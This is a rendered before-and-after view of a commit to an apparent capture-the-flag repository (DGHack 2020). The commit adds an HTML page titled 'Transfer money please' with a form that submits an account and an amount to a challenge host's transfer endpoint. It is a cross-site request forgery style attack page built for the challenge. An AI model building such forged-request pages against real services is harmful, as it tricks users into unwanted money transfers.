

Before and after one commit to SkallZou/DGHack2K20, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1 +1,9 @@
-<h1>Hello!</h1>
+<h1>Transfer money please</h1>
+
+<form action=http://upcredit4.chall.malicecyber.com/transfer/>
+<label>Account</label><br>
+<input type="text" id="account" value="XXXX"><br>
+<label>Amount</label><br>
+<input type="number" id="amount" value="200"><br>
+<input type="submit" value="Submit">
+</form>
```
